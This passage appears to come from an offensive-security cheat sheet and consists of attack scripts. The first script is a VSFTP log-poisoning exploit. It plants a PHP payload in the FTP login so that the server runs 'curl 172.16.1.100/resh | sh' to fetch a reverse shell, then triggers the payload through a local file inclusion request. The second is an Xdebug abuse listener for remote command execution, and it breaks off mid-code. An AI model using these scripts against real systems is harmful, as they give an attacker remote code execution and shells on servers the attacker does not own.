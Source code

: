 ```bash
fi
```

### VSFTP log poisoning with PHP shell

```python
import time
import ftplib
import requests

payload = '<?php passthru("curl 172.16.1.100/resh | sh"); ?>'
url = 'http://<host>/admin/index.php?page=/var/log/vsftpd.log'

aq = input("[!] HTTP server up with resh? nc also up? ")

print("[*] send payload to server with fake ftp login ...")

try:
  ftp = ftplib.FTP('evil.corp', payload, 'whatever:)')
  ftp.close()
except ftplib.all_errors as e:
  print(e)

print("[*] sleep 5 sec ...")
time.sleep(5)

print("[*] request url and hopefully execute reverse shell ...")

r = requests.get(url, timeout=10)
print(r.status_code)
```

### XDEBUG - PHP xdebug sometimes is enabled and can be abused
This script is not perfect and have some problems, but mostly it works.

With this best PHP command is `shell_exec()`

```python
import sys
import base64
import socket
import xml.etree.ElementTree as ET

ip_port = ('0.0.0.0',9000)

print("[*] Waiting for data callback ...")

sock = socket.socket()
sock.bind(ip_port)
sock.listen(10)
conn, addr = sock.accept()

while True:
  try:
    # get data from server
    rcvd_data_b = conn.recv(16384)
    rcvd_data = rcvd_data_b.decode('ascii')
    xml_data = rcvd_data[(rcvd_data.index('\x00')+1):(len(rcvd_data)-1)]
    xml_root = ET.fromstring(xml_data)
    resp = ""
    resp_decode = False
    if 'init' in xml_root.tag:
      # prepare initial response
```
